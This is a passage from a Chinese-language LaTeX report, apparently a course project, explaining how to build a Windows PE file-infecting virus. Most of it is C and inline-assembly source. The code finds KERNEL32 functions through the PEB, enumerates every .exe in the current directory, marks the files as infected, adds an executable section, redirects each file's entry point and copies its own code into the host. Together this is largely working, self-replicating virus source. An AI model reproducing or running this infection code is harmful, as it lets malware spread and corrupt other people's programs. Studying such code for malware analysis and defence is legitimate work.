    if(SetFilePointer(hFile, offset, NULL, mode) == INVALID_SET_FILE_POINTER) {
        return 1;
    }
    if(WriteFile(hFile, buf, size, NULL, NULL) == FALSE) {
        return 2;
    }
    return 0;
}
    \end{lstlisting}

    定义中添加的双下划线和后文 SCSB 成员定义中的单下划线,是为了与 fileapi.h 中的定义相区分,避免出现重复的定义和声明,在测试时带来不必要的麻烦。
    
    图~\ref{fig:virus arch} 描述了本项目中各个函数和结构体之间的调用关系。其中的各个部分会在本节的各小节中依次说明。
    
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\linewidth]{.asset/pe-virus.png}
        \caption{病毒整体架构图}
        \label{fig:virus arch}
    \end{figure}
	\subsection{获取动态库函数地址}
    病毒在执行过程中,需要使用到系统调用来处理文件读写、进程创建等操作,这些操作需要调用系统的动态库KERNEL32.DLL来实现。在PE文件中,调用动态库是通过写入.idata段中的导入表,并在链接过程中重定位函数地址来实现的。所以如Listing~\ref{lst:dynfunc} 所示,在链接前,汇编指令的函数地址部分为空;链接后,相应的地址被替换成了调用函数的RVA。但是在ShellCode编译时,不能确定宿主程序的导入表中动态库函数的地址,故需要在宿主程序装载并开始运行后,从内存中获取动态库函数的地址信息。

    \begin{lstlisting}
00000005: E8 00 00 00 00     call        _foobar
    \end{lstlisting}
    \begin{lstlisting}[label={lst:dynfunc},caption={链接前(上)和链接后(下)的动态库函数调用},captionpos=b]
00401005: E8 08 00 00 00     call        00401012
...
00401011: CC                 int         3
00401012: FF 25 08 C1 40 00  jmp         dword ptr ds:[0040C108h]
    \end{lstlisting}
    
    动态库也是一个PE文件,它会在程序装载时一同被操作系统装载到虚拟内存空间中。如果想要使用动态库的导出函数,就需要找到内存中所存的动态库的导出表,并从导出表中提取出函数地址信息。如图~\ref{fig:FindFunc} 所示,提取函数的整个流程主要分为两个部分:查找动态库的基址及函数在导出表中的相对虚拟地址。找到基址和相对虚拟地址后,相加即可得到函数的虚拟内存地址。具体步骤如下:
    
    \begin{enumerate}
        \item \textbf{查找动态库基址:}Windows在内存中为每个线程维护了所有已经加载的动态库组成的链表,想要找到动态库组成的链表,需要解析Windows存储线程信息的结构体TEB、PEB。TEB指Thread Environment Block,存储了当前进程相关的信息。在官方文档中并没有提到访问TEB的方法,想要访问TEB需要使用一个Trick:通过内联汇编,访问段寄存器fs。Windows中,fs指向的正是当前线程的TEB结构体。不过这也就意味着我们的病毒将只能在x86中运行(其它架构中没有fs,需要使用其它方法)。顺着 \lstinline{TEB -> PEB -> PEB_LDR_DATA},可以找到一个存有各个模块名称和内存地址的双向链表 \lstinline{InMemoryOrderModule}。只需遍历链表,找到名称与需要的库匹配的链表项,便可以得到其基址。
    
        \item \textbf{查找函数相对虚拟地址:}操作系统会将动态库加载到基址指向的内存地址中。这块内存地址的结构与PE格式一致。所以找到函数相对虚拟地址实际上就是解析PE格式,从PE的导出表中找到RVA,这与\ref{sec:PE headers} 的实现有相似之处。PE格式可选文件头的Data Directory数组中的首项就指向导出表节。在导出表节头中,可以找到导出地址表、导出名表和导出序数表。首先在导出名表中查找函数与需要的函数名所对应的项,找到后,使用其序号在导出序数表中查找序数,最后使用序数在导出地址表中查找到对应的函数相对虚拟地址。
    \end{enumerate}
    
    \begin{figure}[h]
        \centering
        
\includegraphics[width=\linewidth]{.asset/FindFunc.png}
        \caption{获取函数地址信息所用结构体}
        \label{fig:FindFunc}
    \end{figure}
    
    代码中的 \lstinline{FindBase()} 函数实现了查找动态库基址的功能,参数 \lstinline{DemandModuleName} 指向要查找的函数名,\lstinline{peb} 指向当前进程的进程环境块。值得注意的是,\lstinline{LIST_ENTRY}是内嵌在\lstinline{LDR_DATA_TABLE_ENTRY} 中的,故如果想要通过链表项访问结构体的话,需要使用Windows提供的 \lstinline{CONTAINING_RECORD()} 宏来计算出包含链表项的结构体的地址。这段代码中使用了多个Windows内置结构体,和指针强制转型。这些结构体之间的关系比较容易搞混,建议对照 \lstinline{winternl.h} 中结构体的定义查看,这些结构体之间的关系如图~\ref{fig:FindFunc} 所示。

    \begin{lstlisting}[language=C,caption={查找动态库基址},label={FindBase},captionpos=b]
__forceinline DWORD FindBase(PWCHAR DemandModuleName, PEB *peb) {
    // Find and return ImageBase of DemandModuleName
    size_t DemandModuleNameLen = sizeof(DemandModuleName) / sizeof(WCHAR);  
    DWORD DemandModuleBase = 0;
    PPEB_LDR_DATA pLdr = peb->Ldr;
    LIST_ENTRY LdrDataListHead = pLdr->InMemoryOrderModuleList;
    for (PRLIST_ENTRY e = LdrDataListHead.Flink; 1 ; e = e->Flink) {
        PLDR_DATA_TABLE_ENTRY Module = CONTAINING_RECORD(
            e,
            LDR_DATA_TABLE_ENTRY,
            InMemoryOrderLinks
        );
        // Compare name with DemandModuleName
        /* s is BaseDllName*/
        PWCHAR s = ((UNICODE_STRING *)Module->Reserved4)->Buffer;
        for (int k = 0; k < DemandModuleNameLen; k++)
            if (s[k] != DemandModuleName[k])
                break;
            else if (k == DemandModuleNameLen - 1)
                // found module
                DemandModuleBase = (DWORD)Module->DllBase;
        if (e == LdrDataListHead.Blink) break;
    }
    return DemandModuleBase;
}
    \end{lstlisting}
    
    \lstinline{FindFunction()} 实现了查找库函数虚拟内存地址的功能,参数分别为需要查找的函数名及动态库基地址。在设计接口时,也考虑过不传入基地址。但是由于导出表中的地址都是相对虚拟地址,没有基地址的话会带来许多麻烦,所以还是选择传入基地址。
    
    \begin{lstlisting}[language=C,caption={查找库函数地址},captionpos=b,label={FundFunction}]
__forceinline DWORD FindFunction(
        PCHAR pcFuncName,
        DWORD dwBase
    ) {
    // Find address of EXPORT Directory Table
    PIMAGE_DOS_HEADER pDosHdr =  dwBase;
    PIMAGE_FILE_HEADER pFileHdr = dwBase
        + pDosHdr->e_lfanew + 0x4; /* 0x4 for signature */
    PIMAGE_OPTIONAL_HEADER32 pOptHdr = (BYTE *)pFileHdr + 
    	sizeof(IMAGE_FILE_HEADER);
    PIMAGE_EXPORT_DIRECTORY d = dwBase
        + pOptHdr->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    PIMAGE_EXPORT_ADDRESS_TABLE pAddr = dwBase + d->AddressOfFunctions;
    PIMAGE_EXPORT_NAME_POINTER ppName = dwBase + d->AddressOfNames;
    PIMAGE_EXPORT_ORDINAL_TABLE pOrd = dwBase + d->AddressOfNameOrdinals;
    for (SIZE_T i = 0; i < d->NumberOfNames; i++) {
        if (_strcmp(dwBase + ppName[i], pcFuncName) == 0) {
            // Matched
            WORD ord = pOrd[i];
            DWORD FuncVA = dwBase + (pAddr + ord)->dwExportRVA;
            return FuncVA;
        }
    }
    return 0;
}
    \end{lstlisting}

        \subsection{ShellCode Super Block}
        \label{sec:SCSB}
    在程序中,为方便编程和测试,我们参考 Linux 内核数据结构,定义了 ShellCode Super Block (SCSB) 结构。它封装了动态获取的 Kernel32 api 函数指针和部分传染所需的参数:

    \begin{lstlisting}[language=C, caption={ShellCode Super Block}, captionpos=b]
typedef struct SHELL_CODE_SUPER_BLOCK {
    // code info
    PBYTE _shellCode;
    DWORD _JMP_POINT_OFFSET;
    DWORD _CODE_SIZE;
    // function
    __FindFirstFileA _FindFirstFileA;
    __FindNextFileA _FindNextFileA;
    __FindClose _FindClose;
    __CreateFileA _CreateFileA;
    __WriteFile _WriteFile;
    __ReadFile _ReadFile;
    __SetFilePointer _SetFilePointer;
    __SetEndOfFile _SetEndOfFile;
    __GetFileSize _GetFileSize;
    __CloseHandle _CloseHandle;
    // headers
    IMAGE_DOS_HEADER dosHdr;
    IMAGE_FILE_HEADER fileHdr;
    IMAGE_OPTIONAL_HEADER32 optHdr;
    IMAGE_SECTION_HEADER lasSecHdr, newSecHdr;
} SCSB;    
    \end{lstlisting}

    其中,code info 部分会在 \ref{sec:self-copy} 自我复制中介绍分析。 headers 部分的作用,是为后面分析读取头数据结构时,在栈空间中预留出空间。

    functions 部分,则是定义了程序执行所需要使用的函数指针。以 \lstinline{CreateFileA} 为例:

    \begin{lstlisting}[language=C, caption={CreateFileA}, captionpos=b]
typedef HANDLE (WINAPI *__CreateFileA) (
    _In_ LPCSTR lpFileName,
    _In_ DWORD dwDesiredAccess,
    _In_ DWORD dwShareMode,
    _In_opt_ LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    _In_ DWORD dwCreationDisposition,
    _In_ DWORD dwFlagsAndAttributes,
    _In_opt_ HANDLE hTemplateFile
);

#ifndef DEBUG_STATIC
#define CreateFileA sb->_CreateFileA
#else
#include <fileapi.h>
#endif

__forceinline GetAllFunc(SCSB *sb) {
    // Get Module Base
    WCHAR DemandModuleName[13] = {L'K', L'E', L'R', L'N', L'E', L'L',
        L'3', L'2', L'.', L'D', L'L', L'L', 0};
    DWORD DemandModuleBase = FindBase(DemandModuleName, peb);
    // Function Names
    CHAR sCreateFileA[12] = {'C', 'r', 'e', 'a', 't', 'e',
        'F', 'i', 'l', 'e', 'A', 0};
    // Get Functions
    sb->_CreateFileA = (__CreateFileA)FindFunction(sCreateFileA, DemandModuleBase);
}
__forceinline HANDLE OpenTargetA(SCSB *sb, CHAR *name) {
    HANDLE hFile = CreateFileA(
        name,
        GENERIC_READ | GENERIC_WRITE,
        0, NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    return hFile;
}
void ShellCode() {
    SCSB super_block;
    SCSB *sb = &super_block;
    GetAllFunc(sb);
    OpenTargetA(sb, name);
}
    \end{lstlisting}

    上面的例子,展示了 SCSB 是如何在程序中发挥作用的:

    首先,调用 \lstinline{GetAllFunc} 获取 \lstinline{CreateFileA} 的地址。由于编写 shellcode 时不方便使用全局变量,因此通过定义 SCSB 结构体在传参时携带其指针,就可以方便地借助 \lstinline{sb->_CreateFileA} 使用该函数。

    而宏定义的存在,则使得函数使用时,函数名称可以与 fileapi.h 中的定义一致,方便了代码的测试和移植。

    \subsection{返回原入口}
    我们使用的插入 ShellCode 方式,是建立新的 section,并将程序入口指向新节。我们需要在 ShellCode 执行完毕后,跳转回原本的程序入口,以保证原始程序的正常执行。

    下面就是这一跳转过程的简短例子,也是最简短的 ShellCode:

    \begin{lstlisting}[language=C, caption={tiny shellcode}, captionpos=b]
void ShellCode() {
    PBYTE peb;
    __asm {
        mov eax, fs:[30h]
        mov peb, eax
    }
    DWORD imageBase;
    imageBase = *(DWORD*)(peb + 0x8);
    __asm {
        mov eax, imageBase
        add eax, 0x11223344
        jmp eax
    }
}
    \end{lstlisting}

    通过 peb 中的 imageBase 字段,可以动态获取当前运行的程序的基地址。而 0x11223344 则是起到``占位''的作用。这一占位字段,会在传染目标程序时从 Optional Header 中获取程序入口的 RVA 地址后被替换。

    之所以需要动态获取 imageBase,是因为程序的 imageBase 是变化的。

    但是,这种写法同样存在一个问题: 代码本身作为传染源时,该字段没有经过更改和替换,执行时会跳转到错误的地址。于是,我们又对其进行了一些改进:

    \begin{lstlisting}[language=C, caption={改进后的 jmp back}, captionpos=b]
void ShellCode() {
    // Return back
    __asm {
        mov eax, 0x0
        add eax, imageBase
        cmp eax, imageBase
        je __code_end
        jmp eax
    }
__code_end:
    return;
}
    \end{lstlisting}
    
    之所以需要使用 \lstinline{mov} 是因为 \lstinline{add} 汇编指令对应的操作码较多,如表~\ref{tab:add and mov} 所示。假设这里使用\lstinline{add eax, 0x0},而不是0x11223344的话,编译器就会生成 83 C0 00,仅能容纳1字节地址。与 add 指令不同,mov到32位寄存器时一定会生成32位立即数地址,即8B xx xx xx xx。再通过简单的比较,就可以判断程序是否为感染源程序 (即是否存在需要返回的原入口),然后正常的退出函数。

\begin{table}[h]
\centering
\begin{tabular}{|c|ccc|}
\hline
                      & 操作码    & 助记符    & 描述   \\ \hline
                      & 05 id     & ADD EAX, imm32  & {Add imm32 to EAX} \\
\multirow{-2}{*}{add} & 83 /0 ib  & {ADD r/m32, imm8} & {Add sign-extended imm8 to r/m32} \\ \hline
                      & 8B /r     & {MOV r32,r/m32} & Move r/m32 to r32. \\
\multirow{-2}{*}{mov} & 8A /r     & {MOV r8,r/m8}   & {Move r/m8 to r8.} \\ \hline
\end{tabular}
\caption{x86 add和mov指令详解}
\label{tab:add and mov}
\end{table}

    \subsection{传染目标程序}
    \label{sec:infect}
    \subsubsection{使用 Find 系列 API 遍历目录}

    FindFirstFile 和 FindNextFile 系列的 API 本质上是文件搜索而不是文件遍历。因此,在利用其进行文件检索时,需要指定清楚检索的条件和目标,不能简单的传入目录名:

    \begin{lstlisting}[language=C, caption={遍历目录下的可执行文件}, captionpos=b]
__forceinline void ShellCodeMain(SCSB *sb) {
    // find exe in cwd
    CHAR search[6] = {'*', '.', 'e', 'x', 'e', 0};
    WIN32_FIND_DATAA findData;
    HANDLE hFind = FindFirstFileA(search, &findData);
    if(hFind == INVALID_HANDLE_VALUE) return;
    // iterate files
    LPWIN32_FIND_DATAA lpFindData = &findData;
    do {
        HANDLE hf = OpenTargetA(sb, lpFindData->cFileName);
        if(hf == NULL) continue;
        InfectTarget(sb, hf);
        CloseHandle(hf);
    } while(FindNextFileA(hFind, lpFindData));
    FindClose(hFind);
    return;
} 
    \end{lstlisting}

    类似的,希望查找 txt 文件时,需要改成 *.txt。路径也可以使用绝对路径。不过,查找得到的文件结构 \lstinline{WIN32_FIND_DATA} 中只有文件名和八字符短文件名,不会含有文件的位置等信息。

    上面调用的 OpenTargetA 函数利用了 CreateFileA 函数。它的定义如下:

    \begin{lstlisting}[language=C, caption={OpenTargetA}, captionpos=b]
__forceinline HANDLE OpenTargetA(SCSB *sb, CHAR *name) {
    HANDLE hFile = CreateFileA(
        name,
        GENERIC_READ | GENERIC_WRITE,
        0, NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    return hFile;
}
    \end{lstlisting}

    \lstinline{GENERIC_READ | GENERIC_WRITE} 表示以可读和可写打开,\lstinline{OPEN_EXISTING} 则要求该文件必须存在。对应 fopen 里的 r+。这些宏定义都定义在 winnt.h 中。当打开失败时,返回的是空指针。
    
    \subsubsection{Headers 提取与分析\label{sec:PE headers}}

    本部分的主要目标是依据 PE 文件结构,从 PE 文件中提取需要的 Headers 中的信息。我们希望:
    
    $\bullet$ 确认这是一个 PE 文件。
    
    $\bullet$ 确认它是 32 位的。
    
    $\bullet$ 确认它还未受到感染。
    
    $\bullet$ 确定最后一个 Section Header 的状态,并据此决定新节的加入位置。

    \begin{figure}[H]
        \centering
        
\includegraphics[width=8cm]{.asset/pe-headers.png}
        \caption{PE 结构图}
        \label{fig:pe arch}
    \end{figure}

    前两项目标可以通过 Headers 中的信息得到,而感染标记则需要我们自行定义。我们取 Dos Header 中 0x1C 偏移处的保留字段作为感染标志。
    
    \begin{lstlisting}[language=C, caption={获取并分析 Headers}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    int err = 0;
    // headers
    /* init in struct SCSB */
    // headers pointer
    PIMAGE_DOS_HEADER pDosHdr = &sb->dosHdr;
    PIMAGE_FILE_HEADER pFileHdr = &sb->fileHdr;
    PIMAGE_OPTIONAL_HEADER32 pOptHdr = &sb->optHdr;
    PIMAGE_SECTION_HEADER pLasSecHdr = &sb->lasSecHdr;
    PIMAGE_SECTION_HEADER pNewSecHdr = &sb->newSecHdr;
    // Get DOS Header
    err = ReadOffset(
        sb, hFile, 0, FILE_BEGIN, 
        pDosHdr, sizeof(IMAGE_DOS_HEADER)
    );
    if(err) return -1;
    // Check infected
    if(pDosHdr->e_res[0] == 0x1234) return 1;
    // Check Signature
    DWORD pe00;
    err = ReadOffset(
        sb, hFile, pDosHdr->e_lfanew, FILE_BEGIN,
        (PVOID)&pe00, sizeof(DWORD)
    );
    if(err) return -1;
    if(pe00 != 0x00004550) return 2;
    // Get File Header
    err = ReadOffset(
        sb, hFile, 0, FILE_CURRENT, 
        pFileHdr, sizeof(IMAGE_FILE_HEADER)
    );
    if(err) return -1;
    // Get Optional Header
    err = ReadOffset(
        sb, hFile, 0, FILE_CURRENT, 
        pOptHdr, 
        /* 224 when 32 bits, same as pFileHdr->SizeOfOptionalHeader */
        sizeof(IMAGE_OPTIONAL_HEADER32) 
    );
    if(err) return -1;
    if(pOptHdr->Magic != IMAGE_NT_OPTIONAL_HDR32_MAGIC) 
        return 3;
    // Check Headers Space
    long currentSize = \
        pFileHdr->NumberOfSections * sizeof(IMAGE_SECTION_HEADER) \
        + pDosHdr->e_lfanew + 0x4 \
        + sizeof(IMAGE_FILE_HEADER) \
        + pFileHdr->SizeOfOptionalHeader;
    long alignSize = pOptHdr->SizeOfHeaders;
    if(currentSize + sizeof(IMAGE_SECTION_HEADER) > alignSize)
        return 4;
    // Get Last Section Header
    err = ReadOffset(
        sb, hFile, currentSize - sizeof(IMAGE_SECTION_HEADER), FILE_BEGIN, 
        pLasSecHdr, sizeof(IMAGE_SECTION_HEADER)
    );
    if(err) return -1;
    ...
}
    \end{lstlisting}

    在代码的最后,我们利用 File Header 中对 Optional Header 大小和 Section header 数量的描述,计算出了当前所有的 Headers 所占用的大小。

    而 Optional Header 中记录的 SizeOfHeaders 实际上是文件为所有 Headers 预留出的空间大小。二者进行比较,就得到了空闲区域是否足以插入一个新的 Section Header。
    
    而获取最后一个 Section Header,则是为了获取最后一节的信息,以便计算新节的插入位置。
    
    \subsubsection{篡改和构造 Headers}

    想要篡改目标程序,我们需要对 Headers 中的信息进行修改,并构造新的 Section Header:

    $\bullet$ 在 Dos Header 中打上感染标记。

    $\bullet$ 修改 File Header 中的节数量。
    
    $\bullet$ 修改 Optional Header 中的程序入口和 SizeOfImage。

    $\bullet$ 构造新的 Section Header,设置 Name, RVA, raw offset, 节属性等等,与后面的插入想对应。

    首先,是获取对齐大小和旧入口,并计算新节的位置和对齐后大小。我们将新节设置在了最后一节的后面:
    
    \begin{lstlisting}[language=C, caption={计算新节的位置和大小}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Get align
    long fileAlign = pOptHdr->FileAlignment;
    long secAlign = pOptHdr->SectionAlignment; 
    // Set old entry RVA
    long oldVA = pOptHdr->AddressOfEntryPoint;
    long *jmpPoint = (void *)(shellCode + JMP_POINT_OFFSET);
    // *jmpPoint = oldVA; !!! you can't edit readonly mem 
    // Calc New Section raw
    long rawNewSec = pLasSecHdr->PointerToRawData + pLasSecHdr->SizeOfRawData;
    // Calc New Section rva 
    long lasVirSize = pLasSecHdr->Misc.VirtualSize;
    if(lasVirSize % secAlign != 0)
        lasVirSize = (lasVirSize / secAlign + 1) * secAlign;
    long rvaNewSec = pLasSecHdr->VirtualAddress + lasVirSize;
    // Calc New Section raw size
    long raw_size = CODE_SIZE;
    if(CODE_SIZE % fileAlign != 0)
        raw_size = (CODE_SIZE / fileAlign + 1) * fileAlign;
    // Calc New Section image size
    int vir_size = CODE_SIZE;
    if(CODE_SIZE % secAlign != 0)
        vir_size = (CODE_SIZE / secAlign + 1) * secAlign;
    ...
}
    \end{lstlisting}
    
    获取了相关的信息后,就可以构造出新的 Section Header。这里我们统一将新节起名为 .ex。
    
    \begin{lstlisting}[language=C, caption={构造 Section Header}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Set New Section Header
    char *sName = pNewSecHdr->Name;
    sName[0] = '.', sName[1] = 'e', sName[2] = 'x';
    sName[3] = sName[4] = sName[5] = sName[6] = sName[7] = 0;
    pNewSecHdr->Misc.VirtualSize = CODE_SIZE;
    pNewSecHdr->VirtualAddress = rvaNewSec;
    pNewSecHdr->SizeOfRawData = raw_size;
    pNewSecHdr->PointerToRawData = rawNewSec;
    pNewSecHdr->PointerToRelocations = 0;
    pNewSecHdr->PointerToLinenumbers = 0;
    pNewSecHdr->NumberOfRelocations = 0;
    pNewSecHdr->NumberOfLinenumbers = 0;
    pNewSecHdr->Characteristics = \
        IMAGE_SCN_CNT_CODE | IMAGE_SCN_ALIGN_32BYTES | \ 
        IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_MEM_READ;
    ...
}
    \end{lstlisting}

    完成新节的构造后,还要对原本的 headers 中的信息进行修改。

    \begin{lstlisting}[language=C, caption={篡改原始 Header}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Set Infected tag
    pDosHdr->e_res[0] = 0x1234;
    // Fix File Header
    pFileHdr->NumberOfSections++;
    // Fix Optional Header
    pOptHdr->AddressOfEntryPoint = rvaNewSec;
    pOptHdr->SizeOfImage = rvaNewSec + vir_size;
    ...
}
    \end{lstlisting}

    上面的修改都是在内存中进行,我们还需要将它们写入到文件中。将被修改的 Headers 写回原本的位置即可。currentSize 在 \ref{sec:PE headers} 中计算出来,是最后一个 Section Header 的结束位置。将 New Section Header 插入到此处即可:

    \begin{lstlisting}[language=C, caption={将修改写入文件}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Saved Dos Header
    err = WriteOffset(
        sb, hFile, 0, FILE_BEGIN,
        pDosHdr, sizeof(IMAGE_DOS_HEADER)
    );
    if(err) return -1;
    // Saved File Header
    err = WriteOffset(
        sb, hFile, pDosHdr->e_lfanew + 0x4, FILE_BEGIN,
        pFileHdr, sizeof(IMAGE_FILE_HEADER)
    );
    if(err) return -1;
    // Saved Optional Header
    err = WriteOffset(
        sb, hFile, 0, FILE_CURRENT,
        pOptHdr,
        sizeof(IMAGE_OPTIONAL_HEADER32)
    );
    if(err) return -1;
    // Saved New Section Header
    err = WriteOffset(
        sb, hFile, currentSize, FILE_BEGIN,
        pNewSecHdr,
        sizeof(IMAGE_SECTION_HEADER)
    );
    if(err) return -1;
    ...
}
    \end{lstlisting}
    
    \subsubsection{插入 ShellCode Section}
    \label{sec:insert-shellcode}
    
    上面只是篡改了 Headers 添加了节表,而真正的 ShellCode 还没有插入进去。利用 SCSB 中记录的 ShellCode 起始地址和大小,以及前面计算出的新节的文件偏移,就可以将新节写入:

    \begin{lstlisting}[language=C, caption={Write EX section}, captionpos=b]
#define shellCode sb->_shellCode
#define JMP_POINT_OFFSET sb->_JMP_POINT_OFFSET
#define CODE_SIZE sb->_CODE_SIZE
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Saved New Section
    err = WriteOffset(
        sb, hFile, rawNewSec, FILE_BEGIN,
        shellCode, CODE_SIZE
    );
    if(err) return -1;
    // Fix jmp point
    err = WriteOffset(
        sb, hFile, rawNewSec + JMP_POINT_OFFSET, FILE_BEGIN,
        &oldVA, sizeof(DWORD)
    );
    if(err) return -1;
    // Alignment
    err = SetFileSize(sb, hFile, rawNewSec + raw_size);
    if(err) return -1;
    return 0;
}
    \end{lstlisting}

    需要注意的是,如果 ShellCode 在内存中是只读的,我们就不能直接在内存中修改 jmp point 后一次性写入,而需要手动写入。

    在病毒自我复制时,使用的是只读可执行内存,所以需要额外手动写入。而使用 infect.c 静态装载 shellcode 时则不需要。

    写入完新节后,需要考虑文件对齐,将文件扩展到正确的大小。
    
    \subsection{病毒的自我复制}
    \label{sec:self-copy}
    将 shellcode 提取为 C 语言的无符号字符数组的做法,需要编写一个额外的程序,来将 shellcode 插入到 PE 文件中,而且被篡改的 PE 文件如果想具有传染性,又需要这个 shellcode 数组。这似乎是个无解的``逻辑套娃'',但仔细一想,它的解决办法其实不难理解。

    首先,提取的 shellcode 本质是可执行的二进制机器码,字符数组的本质是内存中的二进制数据。

    程序的可执行代码必然会出现在内存中。并且它们的属性一般为 r-x,即只读、可执行。如果知道地址,就可以直接在内存中读取这些二进制机器码。
    
    编写 ShellCode 时,会将除了主函数以外的函数全部设置为 \lstinline{inline},再配合 \lstinline{/Ob1} 以上的优化选项,ShellCode 在内存中实质上是连续的。
    
    也就是说,只要知道 ShellCode 的起始内存地址和大小,就能够将 ShellCode 的代码空间看成字符数组,轻松的实现自我复制:

    \begin{lstlisting}[language=C, caption={
    动态 ShellCode}, captionpos=b]
void ShellCode() {
    int __code_start = (int)ShellCode;
    PPEB peb;
    PBYTE imageBase;
    // get peb
    __asm {
        mov eax, fs:[30h];
        mov peb, eax
    }
    // get imageBase
    imageBase = (PBYTE)peb->Reserved3[1];
    // Get Code info
    PBYTE codeAdr;
    DWORD codeSize, jmpPoint;
    __asm {
        mov eax, __code_end
        sub eax, __code_start
        mov codeSize, eax
        mov eax, __jmp_point
        sub eax, __code_start
        add eax, 1
        mov jmpPoint, eax
    }
    // for shellcode, codeRva = entryRva
    codeAdr = (PBYTE) *(DWORD *)(imageBase + 0x3C); 
    codeAdr = codeAdr + (DWORD)imageBase;// optHdr
